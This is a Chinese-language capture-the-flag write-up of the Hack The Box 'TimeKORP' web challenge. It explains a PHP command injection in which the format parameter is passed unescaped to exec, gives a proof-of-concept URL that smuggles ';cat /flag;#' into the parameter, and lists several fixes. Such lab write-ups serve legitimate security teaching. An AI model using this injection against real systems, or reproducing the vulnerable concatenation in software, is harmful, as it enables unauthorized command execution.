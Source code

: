 ## 題目 - TimeKORP
- EVENT: [CTF Try Out](https://ctf.hackthebox.com/event/1434)
- 種類: web
- 難度: very easy

## 解題過程概述
起初看是簡單的網站顯示時間日期而已  
就沒有做基礎的 `enumeration` 了  
開 burpsuite 發現每按一個時間按鈕就呼叫 `/?format=%H:%M:%S`  
看一下 code 發現參數 `%H:%M:%S` 直接餵給 `TimeModel.php` 的 `exec`
就開始嘗試 `command injection` 先確認如何繞過程式執行我要的 cmd
就完成


##  Initial Access - Command Injection 

### Vulnerability Explanation

程式碼直接將使用者輸入 ($_GET['format']) 拼接到系統命令中,沒有進行任何驗證或過濾
```php
# TimeController.php
...
$format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
$time = new TimeModel($format);
...
```

```php
# TimeModel.php
...
public function __construct($format)
{
    $this->command = "date '+" . $format . "' 2>&1";
}

public function getTime()
{
    # 實際執行 變成 date '+';cat /flag;#' 2>&1
    $time = exec($this->command);
    $res  = isset($time) ? $time : '?';
    return $res;
}
...
```

### Vulnerability Fix
#### 1. **白名單驗證 (最推薦)**
只允許特定的安全字符:

```php
public function __construct($format)
{
    // 只允許日期格式字符
    if (!preg_match('/^[A-Za-z%:\-\s]+$/', $format)) {
        throw new Exception('Invalid format');
    }
    $this->command = "date '+" . $format . "' 2>&1";
}
```

#### 2. **使用 escapeshellarg()**
PHP 提供的函數來轉義參數:

```php
public function __construct($format)
{
    $this->command = "date '+" . escapeshellarg($format) . "' 2>&1";
}
```

#### 3. **避免使用 shell 命令 (最安全)**
改用 PHP 原生函數:

```php
public function __construct($format)
{
    $this->format = $format;
}

public function getTime()
{
    // 使用 PHP 內建函數,避免 shell 命令
    return date($this->format);
}
```

#### 4. **預定義格式選項**
限制使用者只能選擇預定義的格式:

```php
$allowed_formats = [
    'time' => '%H:%M:%S',
    'date' => '%Y-%m-%d',
    'datetime' => '%Y-%m-%d %H:%M:%S'
];

$format_key = $_GET['format'] ?? 'time';
$format = $allowed_formats[$format_key] ?? $allowed_formats['time'];
```

### POC 
```bash
# ';cat /flag;#
http://94.237.122.36:54811/?format='%3bcat%20%2fflag%3b%23

# 取得 flag
<h1 class="jumbotron-heading">><span class='text-muted'>It's</span> HTB{t...5}<span class='text-muted'>.</span></h1>
```


**Note**: 此 writeup 僅用於教育目的,請勿在未經授權的系統上進行測試。